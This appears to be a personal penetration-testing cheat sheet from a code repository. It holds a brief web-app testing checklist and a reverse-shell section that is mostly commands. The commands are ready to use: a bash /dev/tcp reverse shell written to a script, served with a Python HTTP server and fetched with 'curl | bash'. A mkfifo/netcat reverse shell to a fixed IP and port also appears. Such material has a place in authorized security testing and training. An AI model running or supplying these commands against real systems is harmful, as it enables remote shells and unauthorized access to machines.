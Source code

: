 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

Linux Privilege Escalation

## Web Application Testing Checklist
1. Walk the Application
	- Did you view all the source code
		- HTML
		- Javascript
		- CSS
	- Did you log all network traffic
		- Capture all HTTP requests/responses

## Reverse Shell
Alternate ways to gain shells.
### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```
